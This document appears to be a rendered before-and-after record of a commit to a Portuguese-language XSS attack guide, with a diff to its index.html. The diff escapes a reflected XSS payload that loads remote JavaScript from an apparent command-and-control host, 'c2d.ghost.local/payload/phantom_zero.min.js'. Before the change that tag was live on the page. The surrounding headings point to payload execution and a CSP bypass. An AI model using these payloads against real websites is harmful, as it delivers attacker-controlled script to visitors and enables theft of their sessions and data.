

Before and after one commit to sucloudflare/xss-malvadao, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 7375-8318 px from the top of the page, without its empty margins (108-1171 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Fix script tag escaping in index.html

```diff
--- a/index.html
+++ b/index.html
@@ -415,7 +415,7 @@ openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -node
             <h2>9. Execução do Payload</h2>
             <h4>Reflected XSS</h4>
             <pre>
-<script src=https://c2d.ghost.local/payload/phantom_zero.min.js></script>
+&lt;script src=https://c2d.ghost.local/payload/phantom_zero.min.js&gt;;//&gt;&lt;/script&gt;
             </pre>
             <h4>Data URI (CSP Bypass)</h4>
             <pre>
```
